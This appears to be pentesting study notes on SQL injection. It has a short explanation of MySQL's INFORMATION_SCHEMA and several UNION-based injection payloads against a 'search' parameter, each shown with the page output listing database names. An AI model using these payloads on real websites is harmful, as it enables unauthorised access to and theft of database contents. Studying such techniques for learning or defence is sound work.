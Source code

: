 * [`sqlmap`](#sqlmap)
* [INFORMATION_SCHEMA](#information_schema)
  * [INFORMATION_SCHEMA Tables](#information_schema-tables)
* [Manual Methods](#manual-methods)
  * [enumerate fields of search query](#enumerate-fields-of-search-query)
  * [enumerate database](#enumerate-database)

# `sqlmap`

# INFORMATION_SCHEMA
Refs:
* <https://www.cmi.ac.in/~madhavan/courses/databases10/mysql-5.0-reference-manual/information-schema.html#schemata-table>

INFORMATION_SCHEMA provides access to database metadata.

Metadata is data about the data, such as the name of a database or table, the data type of a column, or access privileges. INFORMATION_SCHEMA is the information database, the place that stores information about all the other databases that the MySQL server maintains. Inside INFORMATION_SCHEMA there are several read-only tables. They are actually views, not base tables, so there are no files associated with them.
## INFORMATION_SCHEMA Tables
* <https://dev.mysql.com/doc/refman/8.0/en/columns-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/schemata-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/st-units-of-measure-table.html>

# Manual Methods
## enumerate fields of search query
In burpsuite, go to repeater mode and keep on increasing the numbers till the fields of search query gets printed on the webpage
```
search=killer' UNION SELECT 1,2,3,4,5,6-- -
```
```
<h3>Search results </h3>
ID: 1<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate database
### current database
```
search=killer' UNION SELECT database(),2,3,4,5,6-- -
```
```
<h3>Search results </h3> 
ID: Staff<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
### using INFORMATION_SCHEMA
```
search=killer' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3> 
ID: information_schema<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: Staff<br/>Name: 2 3
<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email:
6<br/>
```
### all databases
```
search=killer' UNION SELECT GROUP_CONCAT(SCHEMA_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3>
ID: information_schema,Staff,users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```

